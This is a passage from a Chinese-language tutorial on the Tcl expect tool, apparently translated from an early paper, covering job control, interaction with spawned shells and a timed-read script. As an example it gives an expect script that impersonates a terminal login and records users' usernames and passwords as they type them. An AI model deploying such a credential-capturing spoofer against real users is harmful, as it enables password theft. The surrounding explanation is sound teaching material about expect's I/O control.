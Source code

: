 {% endhighlight %}
有一些应用程序和chess程序不太一样，在chess程序里，的两个玩家轮流动。下面这个脚本实现了一个冒充程序。它能够控制一个终端以便用户能够登录和正常的工作。但是，一旦系统提示输入密码或者输入用户名的时候，expect就开始把击键记下来，一直到用户按下回车键。这有效的收集了用户的密码和用户名，还避免了普通的冒充程序的"Incorrect password-tryagain"。而且，如果用户连接到另外一个主机上，那些额外的登录也会被记录下来。
{% highlight bash linenos %}
spawn tip /dev/tty17     ;# open connection to
set tty $spawn_id        ;# tty to be spoofed
spawn login
set login $spawn_id 
log_user 0
for {} {1} {} {
    set ready [select $tty $login]
    case $login in $ready {
        set spawn_id $login
        expect
          {"*password*" "*login*"}{
              send_user $expect_match
              set log 1
             }
          "*"        ;# ignore everything else
        set spawn_id    $tty;
        send $expect_match
    }
    case $tty in $ready {
        set spawn_id    $tty
        expect "* *"{
                if $log {
                  send_user $expect_match
                  set log 0
                }
               }
            "*" {
                send_user $expect_match
               }
        set spawn_id     $login;
        send $expect_match
    }
}
{% endhighlight %}
这个脚本是这样工作的。首先连接到一个login进程和终端。缺省的，所有的对话都记录到标准输出上(通过send_user)。因为我们对此并不感兴趣，所以，我们通过命令"log_user 0"来禁止这个功能。(有很多的命令来控制可以看见或者可以记录的东西)。
在循环里面， select等待终端或者login进程上的动作，并且返回一个等待输入的spawn_id表。如果在表里面找到了一个值的话，case就执行一个 action。比如说，如果字符串"login"出现在login进程的输出中，提示就会被记录到标准输出上，并且有一个标志被设置以便通知脚本开始记录 用户的击键，直至用户按下了回车键。无论收到什么，都会回显到终端上，一个相应的action会在脚本的终端那一部分执行。
这些例子显示了expect的作业控制方式。通过把自己插入到对话里面，expect可以在进程之间创建复杂的I/O流。可以创建多扇出，复用扇入的，动态的数据相关的进程图。
相比之下，shell使得它自己一次一行的读取一个文件显的很困难。shell强迫用户按下控制键(比如，^C,^Z)和关键字(比如fg和bg)来实 现作业的切换。这些都无法从脚本里面利用。相似的是：以非交互方式运行的shell并不处理“历史记录”和其他一些仅仅为交互式使用设计的特征。这也出现 了和前面哪个passwd程序的相似问题。相似的，也无法编写能够回归的测试shell的某些动作的shell脚本。结果导致shell的这些方面无法进 行彻底的测试。

如果使用expect的话，可以使用它的交互式的作业控制来驱动shell。一个派生的shell认为它是在交互的运行着，所以会正常的处理作业控制。它不仅能够解决检验处理作业控制的shell和其他一些程序的问题。还能够在必要的时候，让shell代替expect 来处理作业。可以支持使用shell 风格的作业控制来支持进程的运行。这意味着：首先派生一个shell，然后把命令送给shell来启动进程。如果进程被挂起，比如说，发送了一个^Z，进程就会停下来，并把控制返回给shell。对于expect而言，它还在处理同一个进程(原来那个shell)。
expect的解决方法不仅具有很大的灵活性，它还避免了重复已经存在于shell中的作业控制软件。通过使用shell，由于你可以选择你想派生的 shell，所以你可以根据需要获得作业控制权。而且，一旦你需要(比如说检验的时候)，你就可以驱动一个shell来让这个shell以为它正在交互式 的运行。这一点对于在检测到它们是否在交互式的运行之后会改变输出的缓冲的程序来说也是很重要的。
为了进一步的控制，在interact执行期间，expect把控制终端(是启动expect的那个终端，而不是伪终端)设置成 生模式 以便字符能够正确的传送给派生的进程。当expect在没有执行interact的时候，终端处于 熟模式 下，这时候作业控制就可以作用于expect本身。
交互式的使用expect
在前面，我们提到可以通过interact命令来交互式的使用脚本。基本上来说，interact命令提供了对对话的自由访问，但我们需要一些更精细的控制。这一点，我们也可以使用expect来达到，因为expect从标准输入中读取输入和从进程中读取输入一样的简单。但是，我们要使用 expect_user和send_user来进行标准I/O，同时不改变spawn_id。
下面的这个脚本在一定的时间内从标准输入里面读取一行。这个脚本叫做timed_read，可以从csh里面调用，比如说，set answer="timed_read 30"就能调用它。
{% highlight bash linenos %}
#!/usr/local/bin/expect -f
set timeout [index $argv 1]
expect_user "* "